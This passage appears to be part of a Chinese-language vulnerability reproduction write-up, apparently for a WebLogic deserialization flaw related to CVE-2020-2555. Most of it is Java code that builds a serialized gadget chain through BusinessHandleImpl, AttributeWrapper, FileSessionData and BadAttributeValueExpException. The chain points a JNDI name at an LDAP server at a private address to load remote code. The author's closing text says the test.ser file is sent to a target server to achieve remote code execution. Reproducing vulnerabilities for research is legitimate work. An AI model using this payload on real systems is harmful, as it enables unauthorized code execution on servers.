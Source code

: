 ```

        Properties props = new Properties();
        Name name = new CompoundName("ldap://192.168.1.177:1389/vntyei", props);
        Field jndiNameF = homeHandle.getClass().getDeclaredField("jndiName");
        jndiNameF.setAccessible(true);
        jndiNameF.set(homeHandle, name);

// homeHandle设置到BusinessHandleImpl
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();
        Field homeHandleF = businessHandle.getClass().getDeclaredField("homeHandle");
        homeHandleF.setAccessible(true);
        homeHandleF.set(businessHandle, homeHandle);

        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);
        attributeWrapper.setEJBObjectWrapped(true);

        Map map = new ConcurrentHashMap<String, Object>();
        map.put("wl_debug_session", attributeWrapper);

        SessionData sessionData = new FileSessionData();
        Field attributesF = sessionData.getClass().getSuperclass().getDeclaredField("attributes");
        attributesF.setAccessible(true);
        attributesF.set(sessionData, map);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, sessionData);
        serialize(badAttributeValueExpException);

    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.flush();
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

```

这里使用的是Y4er师傅写的python脚本和框架，链接在下面，在分析复现时Y4er师傅帮了我很多，非常感谢！！！

https://github.com/Y4er/CVE-2020-2555

在这里是通过序列化生成一个`test.ser`，然后通过python脚本发送到目标服务器，达到RCE的效果
